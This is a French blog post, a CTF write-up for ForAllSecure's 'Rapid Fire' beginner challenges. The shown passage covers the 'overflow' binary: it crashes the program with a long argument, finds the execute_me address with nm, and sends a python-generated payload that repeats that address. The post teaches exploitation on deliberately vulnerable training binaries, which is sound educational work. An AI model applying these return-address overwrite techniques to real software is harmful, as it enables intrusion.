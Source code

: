 # Solutions du CTF RapidFire de ForAllSecure

Dans [un billet sur leur blog](https://blog.forallsecure.com/2016/05/24/live-streaming-security-games/), la compagnie *ForAllSecure* présentait la vidéo d'un CTF de leur création baptisé *Rapid Fire*.  

Ce CTF a la particularité d'être filmé en temps réel, comme pour une compétition sportive.  

Pour donner une certaine cadence à ce CTF et éviter que la vidéo soit ennuyeuse les épreuves proposées sont simples et peuvent être résolues rapidement (d'où le nom du CTF).  

Ici pas de stack protector sur les binaires et pas non plus d'injection de shellcode à faire : il faut seulement provoquer l'appel de la fonction *execute\_me* présente dans les binaires. Du coup on a pas à se soucier non plus de l'ASLR ou d'une éventuelle stack non exécutable. Parfait pour tous ceux qui souhaitent débuter dans l'exploitation.  

Lors de l'event *execute\_me* validait l'exercice. Ici elle affichera seulement *Awesome*.  

Quoiqu'il en soit voir une partie de la vidéo m'a donné envie de mettre en pause et de solutionner moi même les exercices. Après demande express sur le blog, ceux-ci ont fournit [un lien Github](https://github.com/ForAllSecure/c2c-rapidfire-challenges) sur lequel retrouver les binaires et les sources.  

On évitera évidement de regarder les sources si on veut vraiment profiter du challenge déjà simple surtout que contrairement aux participants de l'événement on a pas la pression du temps et de la caméra :)  

Semi finales
------------

### Overflow

On débute avec le programme baptisé *overflow* (Merci *Captain Obvious*).  

```plain
$ ./overflow 
Usage: ./overflow your_name
```

L'overflow est simple à provoquer :  

```plain
$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Erreur de segmentation
```

On récupère l'adresse de *execute\_me* avec nm :  

```plain
$ nm overflow | grep execute_me
080484ad T execute_me
```

```plain
$ ./overflow `python -c "print '\xad\x84\x04\x08'*10"`
Hello ����������!
Erreur de segmentation
```
